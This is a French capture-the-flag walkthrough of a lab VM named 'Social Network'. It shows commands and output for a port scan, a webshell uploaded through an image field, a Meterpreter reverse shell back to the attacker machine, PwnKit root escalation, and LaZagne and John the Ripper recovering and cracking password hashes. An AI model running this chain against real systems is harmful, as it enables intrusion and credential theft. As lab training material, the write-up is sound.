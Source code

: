 # Social Network

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.138
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.138...100%
[+] Scan Nmap 192.168.56.138...100%
 
[+] 80/tcp open
[+] 8000/tcp open
[+] 22/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/m0rph3u5/Massap/192.168.56.138-tcp.html     |
==========================================================
```

&nbsp;

Le serveur hébergeait un genre de réseau sociaux , je me suis inscrit , et j’ai pu constater dans la parti post que l’on pouvais uploads une image , j’ai mis une `webshell`

<img width="1097" height="800" alt="Capture du 2025-03-06 19-39-30" src="https://github.com/user-attachments/assets/5631ac9d-3d18-43cf-98b9-be669819d543" />

&nbsp;

**<span style="color: #dddddd;">💥</span> Metasploit - webshell**

```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set verbose true
verbose => true
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 192.168.56.104:4444 
[*] Sending stage (40004 bytes) to 192.168.56.138
[*] Meterpreter session 1 opened (192.168.56.104:4444 -> 192.168.56.138:60184) at 2025-03-06 19:29:05 +0100

(Meterpreter 1)(/var/www/html/data/images/posts) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> Linpeas**

Elevation de privilege

```
www-data@socnet2:/tmp$ sh linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

&nbsp;

**<span style="color: #dddddd;"><span style="color: #dddddd;">💀</span> Exploit Pwnkit</span>**

<span style="color: #dddddd;">Test de l'exploit</span>

```
www-data@socnet2:/tmp$ ./PwnKit  
./PwnKit
root@socnet2:/tmp#
```

&nbsp;

**<span style="color: #dddddd;">👾</span>  Lazagne**

Voyons si lazagne trouve des choses intéressante 

```
root@socnet2:/tmp/LaZagne-2.4.6/Linux# python laZagne.py all
python laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


------------------- Grub passwords -----------------

[+] Hash found !!!
Hash: $1$gLhU0/$aW78kHK1QfV3P2b2znUoe/

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: socnet
Hash: $6$dF89FbLlk3dIJeo4$iEeus5kPteNqivMT5Bt7o3rNtIv0oWQug63syktfj9zwYoeP5tvfc1ve9GsfjyOFz5sRxEIjoueHKtTJTyxS9/:17833:0:99999:7:::


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 2.2199819088
```

&nbsp;

🧨**JohnTheRipper**

Crack des hash 

```
┌──[m0rph3u5@parrot]─[~/Desktop]
└──╼ $john socnet2 --wordlist=Desktop/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
andrew1995	 (socnet)
topsecret        (?)
1g 0:00:02:19 DONE (2025-03-05 20:28) 0.007178g/s 1857p/s 1857c/s 1857C/s thebest15..teladan
Use the "--show" option to display all of the cracked passwords reliably

┌──[parrot@parrot]─[~/Desktop]
└──╼ $john socnet2 --show
socnet:andrew1995:18503:0:99999:7:::
?:topsecret
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| socnet | andrew1995 |
| ?   | topsecret |

&nbsp;
